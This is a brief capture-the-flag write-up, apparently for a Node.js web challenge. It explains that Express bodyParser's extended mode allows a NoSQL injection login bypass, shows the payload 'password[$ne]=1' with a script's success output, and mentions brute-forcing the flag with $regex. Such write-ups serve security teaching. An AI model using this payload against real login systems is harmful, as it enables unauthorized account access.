 1. With `bodyParser`'s `extended = true`, we can send object to nodejs. Use this to do NoSQL injection.

```
$ python3 solve.py
data> username=admin&password[$ne]=1
Success owo!
```

2. Use `$regex` to brute force out the flag.
